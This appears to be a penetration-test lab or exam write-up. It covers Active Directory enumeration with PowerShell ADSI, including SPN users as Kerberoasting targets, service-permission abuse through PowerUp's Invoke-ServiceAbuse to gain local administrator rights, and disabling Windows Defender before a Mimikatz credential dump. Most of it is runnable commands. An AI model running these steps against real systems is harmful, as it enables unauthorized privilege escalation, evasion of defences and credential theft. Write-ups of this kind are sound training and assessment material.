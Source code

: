 # Domain Enumeration
USER is a domain computer and we are authenticated with domain credentials. We can enumerate the 
domain using PowerShell ADSI.

All users
``` 
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(objectclass=user))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```
all domain computers
```
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(objectclass=computer))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```
domain trusts
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```
users with SPN
```
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(!(samaccountname=krbtgt))(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```

## Steps to compromise
Using an automated tool such as PowerUp1
, we can find misconfigurations such as service permissions 
or potentially hijackable DLL locations. Running Invoke-AllChecks will show us any vulnerabilities. As 
seen in the screenshot below we find a service named SensorDataService which has misconfigured 
permissions and our current user examAd can restart this service, allowing us to abuse it and add our 
user into the local Administrators group

```
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
Running The following Command will add our current user (examAp) to the local administrator group

```
Invoke-ServiceAbuse -Name 'SensorDataService' -Username 'test\examAd'
```
We can verify our user has been added the Administrators group
```
net localgroup Administrator
```
Once we have Administrative Privileges on USER, we run Invoke-Mimikatz to dump credentials. But first 
let’s disable Windows Defender.
```
Set-MpPreference -DisableIOAVProtection $true
```
